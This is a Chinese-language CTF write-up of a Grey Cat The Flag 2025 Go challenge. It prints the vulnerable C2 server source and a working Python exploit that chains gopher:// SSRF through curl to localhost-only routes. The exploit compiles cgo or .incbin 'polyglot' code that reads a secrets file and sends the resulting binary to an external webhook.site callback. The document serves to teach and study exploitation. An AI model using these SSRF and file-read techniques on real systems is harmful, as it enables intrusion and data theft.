


# Polyglot漏洞浅析-先知社区

> **来源**: https://xz.aliyun.com/news/18362  
> **文章ID**: 18362

---

# Polyglot漏洞浅析

## 前言

最近有个 Grey Cat The Flag 2025，web中有3道 go 题，国际比赛的考点新颖且很少有脑洞套娃，而且本身对 go 题也很感兴趣，就做了下，学到了一个新的攻击手法，**polyglot 攻击手法**（多语言混合构造）

## C2

题目描述：Our forensics teams have discovered this Golang command and control server on a compromised system. Can you exfiltrate the flag?

main.go

```
package main

import (
    "context"
    "encoding/json"
    "fmt"
    "log"
    "net"
    "net/http"
    "os"
    "os/exec"
    "sync"
    "time"

    "ctf.nusgreyhats.org/c2/secrets"
    "github.com/google/uuid"
)

var agents = map[string]*agent{}
var agentLock = sync.RWMutex{}

type agent struct {
    AgentUrl       string `json:"agentUrl"`
    ComputerName   string `json:"computerName"`
    IpAddress      string `json:"ipAddress"`
    CryptoKey      string `json:"cryptoKey"`
    MasterPassword string `json:"masterPassword"`
    SSN            string `json:"ssn"`
    CreditCard     string `json:"creditCard"`
}

func executeCommandWithTimeout(name string, args ...string) error {
    ctx, cancel := context.WithTimeout(context.Background(), time.Second*10)
    defer cancel()

    cmd := exec.CommandContext(ctx, name, args...)
    cmd.Dir = os.TempDir()
    return cmd.Run()
}

func handleRegistration(w http.ResponseWriter, req *http.Request) {
    var reg agent
    body := http.MaxBytesReader(w, req.Body, 0x1000)
    err := json.NewDecoder(body).Decode(&reg)
    if err != nil {
       w.WriteHeader(http.StatusBadRequest)
       fmt.Fprintln(w, "Invalid JSON")
       return
    }

    log.Printf("%v: %v
", req.RemoteAddr, reg.AgentUrl)

    err = executeCommandWithTimeout("curl", reg.AgentUrl)
    if err != nil {
       w.WriteHeader(http.StatusBadRequest)
       fmt.Fprintln(w, "Failed to connect with C2 agent")
       return
    }

    agentId := uuid.NewString()
    agentLock.Lock()
    defer agentLock.Unlock()
    agents[agentId] = &reg

    fmt.Fprint(w, agentId)
}

func handleRequestAgentData(w http.ResponseWriter, r *http.Request) {
    agentLock.RLock()
    defer agentLock.RUnlock()
    agentId := r.PathValue("id")
    agent, ok := agents[agentId]
    if !ok {
       w.WriteHeader(http.StatusNotFound)
       fmt.Fprintln(w, "C2 Agent not found!")
       return
    }
    json.NewEncoder(w).Encode(agent)
}

func handleExec(w http.ResponseWriter, r *http.Request) {
    agentLock.RLock()
    defer agentLock.RUnlock()
    agentId := r.PathValue("id")
    agent, ok := agents[agentId]
    if !ok {
       w.WriteHeader(http.StatusNotFound)
       fmt.Fprintln(w, "C2 Agent not found!")
       return
    }

    body := http.MaxBytesReader(w, r.Body, 0x1000)
    defer body.Close()
    dir, err := os.MkdirTemp("", "c2_")
    if err != nil {
       w.WriteHeader(http.StatusInternalServerError)
       fmt.Fprintln(w, "Failed to create temp dir!")
       return
    }
    defer os.RemoveAll(dir)
    fname := fmt.Sprintf("%s/main.go", dir)
    binName := fmt.Sprintf("%s/main", dir)
    f, err := os.Create(fname)
    if err != nil {
       w.WriteHeader(http.StatusInternalServerError)
       fmt.Fprintln(w, "Failed to create payload temp file!")
       return
    }
    defer f.Close()
    f.ReadFrom(body)

    err = executeCommandWithTimeout("go", "build", "-ldflags", "-s -w", "-o", binName, fname)
    if err != nil {
       w.WriteHeader(http.StatusInternalServerError)
       fmt.Fprintln(w, "Failed to compile payload!")
       return
    }
    agentExecUrl := fmt.Sprintf("%s/exec", agent.AgentUrl)
    err = executeCommandWithTimeout("curl", "-T", binName, agentExecUrl)
    if err != nil {
       w.WriteHeader(http.StatusInternalServerError)
       fmt.Fprintln(w, "Failed to send payload to victim!")
       return
    }
    fmt.Fprintln(w, "Payload sent to victim!")
}

// Admin only
// Prints flag (you'll never get it)
func handleFlag(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintln(w, secrets.Flag)
}

func isLocalhost(req *http.Request) bool {
    if req == nil {
       return false
    }
    host, _, err := net.SplitHostPort(req.RemoteAddr)
    if err != nil {
       return false
    }

    return host == "127.0.0.1" || host == "::1" || host == "[::1]"
}

func adminOnly(next http.HandlerFunc) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
       if !isLocalhost(r) {
          w.WriteHeader(http.StatusUnauthorized)
          fmt.Fprintln(w, "Only admins can access this page!")
          return
       }
       next(w, r)
    })
}

func main() {
    http.HandleFunc("POST /register", handleRegistration)
    http.Handle("GET /agent/{id}", adminOnly(handleRequestAgentData))
    http.Handle("POST /agent/{id}/execute", adminOnly(handleExec))
    http.Handle("GET /flag", adminOnly(handleFlag))

    http.ListenAndServe(":8000", nil)
}
```

go 写的一个 c2 服务器，主要有 handleRegistration、handleRequestAgentData、handleExec、handleFlag 4个处理方法。

还有3个辅助方法，isLocalhost 和 adminOnly 用来校验请求是否来自本机，想要调用除 handleRegistration 的其他3个处理方法，都要通过这个校验才行。executeCommandWithTimeout 用于执行一个外部命令，并限制它最多运行 10 秒超时，handleRegistration 和 handleExec 都用到了它来执行命令。

handleRegistration 用于注册 agent

```
func handleRegistration(w http.ResponseWriter, req *http.Request) {
    var reg agent
    body := http.MaxBytesReader(w, req.Body, 0x1000)
    err := json.NewDecoder(body).Decode(&reg)
    if err != nil {
        w.WriteHeader(http.StatusBadRequest)
        fmt.Fprintln(w, "Invalid JSON")
        return
    }

    log.Printf("%v: %v
", req.RemoteAddr, reg.AgentUrl)

    err = executeCommandWithTimeout("curl", reg.AgentUrl)
    if err != nil {
        w.WriteHeader(http.StatusBadRequest)
        fmt.Fprintln(w, "Failed to connect with C2 agent")
        return
    }

    agentId := uuid.NewString()
    agentLock.Lock()
    defer agentLock.Unlock()
    agents[agentId] = &reg

    fmt.Fprint(w, agentId)
}
```

这里在 curl 时可以用 gopher 协议来打 ssrf

handleExec 用于将传入的 go 代码编译成二进制文件发送到指定 agent

```
// Error handling and cleanup removed for brevity
func handleExec(w http.ResponseWriter, r *http.Request) {
    agentLock.RLock()
    defer agentLock.RUnlock()
    agentId := r.PathValue("id")
    agent, ok := agents[agentId]

    body := http.MaxBytesReader(w, r.Body, 0x1000)
    defer body.Close()
    dir, err := os.MkdirTemp("", "c2_")
    fname := fmt.Sprintf("%s/main.go", dir)
    binName := fmt.Sprintf("%s/main", dir)
    f, err := os.Create(fname)
    f.ReadFrom(body)

    err = executeCommandWithTimeout("go", "build", "-ldflags", "-s -w", "-o", binName, fname)
    agentExecUrl := fmt.Sprintf("%s/exec", agent.AgentUrl)
    err = executeCommandWithTimeout("curl", "-T", binName, agentExecUrl)
    fmt.Fprintln(w, "Payload sent to victim!")
}
```

由于是在/tmp下编译go代码，go.mod在/app下，不能导入flag所在的包，所以不能通过直接用go来文件包含

官方解法利用的是go 中的 cgo 特性，也就是允许在 go 中调用 c 函数，基本语法是把 c 代码写在 go 注释中，然后`import "C"` 之后就能用 c 代码定义的函数了

综上思路就很明显了，先用 webhook 注册个 agent，拿到其 uuid，再在注册路由用 gopher 打 ssrf，访问 /agent/{uuid}/execute 路由，让其把编译好的二进制文件传到 webhook 上

poc

```
import requests
import urllib.parse
import textwrap

BASE_URL = "http://challs.nusgreyhats.org:33203"
CALLBACK = "https://webhook.site/e79205d9-b31d-451e-81d8-24e799afa0a0"
LOOPBACK = "gopher://127.0.0.1:8080/_"

def register(url: str) -> str:
    return requests.post(f"{BASE_URL}/register", json={"agentUrl": url}).text.strip()

def gopher_payload(uuid: str) -> str:
    src = textwrap.dedent("""\
        package main
        /*
        #define package
        #define secrets
        #define var char*
        #include "/app/secrets/flag.go"
        #include <stdio.h>
        void printflag(){puts(Flag);}
        */
        import "C"
        func main(){C.printflag()}
    """)
    raw = (
        f"POST /agent/{uuid}/execute HTTP/1.1\r
"
        f"Content-Length: {len(src)}\r
"
        "Host: localhost:8080\r
\r
"
        f"{src}\r
"
    )
    return LOOPBACK + urllib.parse.quote(raw)

def main():
    uuid = register(CALLBACK)
    print(uuid)
    register(gopher_payload(uuid))

if __name__ == "__main__":
    main()
```



除了用 c 代码实现，还可以用汇编语言，但其实还是 cgo 特性。可以用内联汇编 (`__asm__`) + `.incbin` 指令

* `__asm__ (...)` 是 GCC 扩展，允许嵌入汇编代码
* `.incbin` 是汇编伪指令，它的作用是把一个文件的二进制内容原样嵌入到目标文件中

```
package main

/*
__asm__ (
    ".incbin "/app/secrets/flag.go"
"
);
*/
import "C"

func main() {
    
}
```



## 总结

go 中对其他多种语言兼容，导致了此类漏洞的产生，之后如果遇到类似用 go 写的代码，不妨可以试试 polyglot
